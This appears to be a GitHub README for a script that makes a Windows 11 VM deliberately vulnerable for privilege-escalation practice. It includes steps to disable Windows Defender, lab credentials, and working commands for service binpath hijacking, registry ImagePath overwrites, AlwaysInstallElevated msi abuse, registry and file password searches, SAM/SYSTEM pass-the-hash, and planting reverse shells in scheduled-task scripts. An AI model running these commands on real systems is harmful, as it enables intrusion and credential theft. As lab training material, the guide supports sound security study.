





# Basic Privilege Escalation in Windows
Powershell Script For Windows 11 Vulnerable machine in order to practice most common privilege escalation techniques (still in development!).

Sorry guys, I don't know much from Powershell Scripting (still learning) and because of that, my script is quite long ...

Very special thanks for [sagishahar](https://github.com/sagishahar/) and [blakedrumm](github.com/blakedrumm), they made scripts that I could use as bases for my own.

And last, but not least, [Tib3rius](https://github.com/Tib3rius/) and his setup.bat for Windows Privilege Escalation.

# Download windows 11 dev edition
Download from this link: https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/

Be careful! The VM will require a minimum of 8GB of RAM and at least 70GB of disk space.

# First, Before anything
We need to enable our machine to execute scripts.
To do that, we will follow this instructions (as user User, which is the default one):

1) Go to Windows Security > Virus & Threat Protection > Virus & Threat protection settings and click in Manage



2) *Turn off* the following settings: **Real-time protection, Cloud-delivery protection, Automatic sample submission and tamper protection**.
3) Now, run Powershell as *Administrator*.
4) Execute this following command as Administrator (in order to execute scripts in Powershell):

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
```



5) Change in power setting the time to turn off the machine (by default is 5 min).

# Disable Windows Defender
Until now, I couldn't find anyway to automate this task. So, just follow this instructions to disable windows defender.

1) Copy the content from minimal.ps1 to a file named minimal (using powershell ISE) and save it on Desktop.



2) Type `msconfig` in windows search bar and click on System Configuration.
3) In Boot tab, set Safe boot and Minimal.



4) Click Ok and restart your machine.
5) Open Powershell as *Administrator*.
6) Change directory to Desktop with the following command:

```powershell
cd C:\Users\User\Desktop
```

7) Run the minimal.ps1

```powershell
.\minimal.ps1
```

8) Type `msconfig` in windows search bar and click on System Configuration
9) In Boot tab, unset Safe boot and Minimal
10) Click in Ok and Restart. This will restart the machine.

You can do it manually (I will put it here soon).

# Running setup.ps1
Now is the fun part, we run the setup script and we have a vulnerable windows 11 machine. We can now train the most common privilege escalation techniques.

1) Copy the setup content to a file called setup.ps1 and save it in Desktop.



2) Run powershell as *Administrator*
3) Change directory

```powershell
cd C:\Users\User\Desktop
```

4) Run the setup script:
```powershell
.\setup.ps1
```

5) Restart your windows VM.

# How to use it this script

I'm going to explain how to use it, but as a general way.

I think the person who will use it will discover how to use some commands in order to privilege escalate this machine as its own pace.

There is an `autologin` to User, who is the default user from this machine and because of this, **I recommend** that after reboot, you just **sign out** as User.

Use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) as a tool for your learning, but remember to enumerate manually.

## Users

1) douglas

Use douglas user to escalate your privilege through the machine.

**Note:** You can change `douglas` as another user. Just search for all `douglas` entries in this script and change all of them.

Creds: `douglas:password123`

Groups: Remote Desktop and Remote Management (access via evil-winrm)

I *STRONGLY RECOMMEND* use remote desktop access as your first access and them you can use a reverse shell (created via msfvenom) to your own machine.

I had "some problems" using [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and .exe files via evil-winrm, so try use .exe files via the reverse shell spawned.

2) fakeadmin

Creds: `fakeadmin:fakeadmin`

Vulnerability: SeImpersonatePrivilage

Use [GodPotato](https://github.com/BeichenDream/GodPotato) or [CoercedPotato](https://github.com/hackvens/CoercedPotato).

3) backupuser

Creds: `backupuser:backup1`

Member of Backup Operators

Grab SAM and SYSTEM FILES

Use impacket-secretsdump to access the machine via [Pass the Hash](https://en.wikipedia.org/wiki/Pass_the_hash) technique.

Then use impacket-psexec, evil-winrm or any kind of tool that you can use the PtH.

4) admin

It's the user that we want to get the credentials, hash, ...

# Services

## Insecure Service Permission

1) Check service daclsvc with accesschk (if it can be modify) and sc.exe (its configuration)
2) Check its status
```cmd
sc query daclsvc
```
3) Stop the service if it is necessary

4) Alter its binpath
```cmd
sc config daclsvc binpath="C:\Path\to\your\reverse.exe"
```
5) Setup a listener

6) Restart/Start this service

## Unquoted Service Path

1) Check if service unquotedsvc has this kind of vulnerability
```
sc qc unquotedsvc
```
2) Check if you have write permission to a directory using accesschk:
```cmd
.\accesschk.exe /accepteula -uwdq "C:\Begin of\Path To\Unquoted Service"
```
In this case, unquoted service is writable

3) Stop the service if it is necessary

4) Copy you reverse shell so I can be use something like this:
```cmd
copy C:\Path\to\your\reverse.exe "C:\Begin of\Path To\Unquoted.exe"
```

5) Setup a listener

6) Restart/Start the service

## Weak Registry Permissions

1) Check regsvc misconfiguration via accesschk:

```cmd
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

2) Overwrite the imagepath registry key in order to execute your reverse shell

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Path\to\your\reverse.exe /f
```

3) Restart/Start the service

## Insecure Service Executables

1) Check filepermservice
2) Stop the service if it is necessary
3) Copy your reverse shell
4) Setup a listener
5) Restart/Start the service

# Registry

## Autorun

1) Check Autorun executables:
```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
2) Copy your reverse shell to autorun directory

3) Setup a listener

4) Restart your machine

## AlwaysInstallElevated

1) Check manually:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
2) Create a .msi reverse shell using msfvenom

3) Set up a listener

4) Execute the following command:
```
msiexec /quiet /qn /i C:\Path\To\reverse.msi
```

# Passwords

## Registry

1) Check for registry password
```cmd
reg query HKLM /f password /t REG_SZ /s
```
or
```cmd
reg query HKCU /f password /t REG_SZ /s
```

## Saved Creds

1) Execute the command
```cmd
cmdkey /list
```

2) Can be found in savecred.bat file

## SAM AND SYSTEM files

1) Can be found in a directory in the system.
2) After that, transfer them to local machine and extract the users hashes.
3) Use the PtH technique to escalate your privilege.

## Configuration File

Unattend.xml saved in Panther directory.
Even after this script the Windows Machine removed the password in base64, but I saved this file in another directory. Go there and find it!

1) Search recursively for files with password in it:
```cmd
findstr /si password *.xml *.ini *.txt
```

## PS-History
Find user history file, maybe douglas can read it.

# Scheduled Tasks

Check for schedules tasks:
```cmd
schtasks /query /fo LIST /v
```

Or
```powershell
Get-ScheduledTask | select TaskName,State
```

There is a file Clean.ps1 which we can modify it (check all of this).
Find it and use the following command to add our reverse shell to be executed.
```
echo C:\Path\For\Our\reverse.exe >> C:\Paths\to\Find\CleanUp.ps1
```
